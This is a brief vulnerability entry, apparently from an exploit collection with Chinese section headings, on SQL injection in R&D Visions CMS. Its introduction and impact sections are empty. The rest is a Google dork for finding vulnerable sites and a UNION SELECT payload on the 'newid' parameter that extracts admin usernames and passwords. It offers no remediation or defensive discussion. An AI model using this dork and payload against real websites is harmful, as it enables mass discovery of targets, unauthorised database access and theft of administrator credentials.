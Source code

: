 # R&D Visions CMS SQL Injection

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

Google Dork:


```
intext:"Website by R&D Visions" inurl:.php?id=

intext:"CMS System by R&D Visions"
```

Demo:


```
https://url/home.php?newid=53[SQLi]
```

Injection:


```
https://url/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--+
```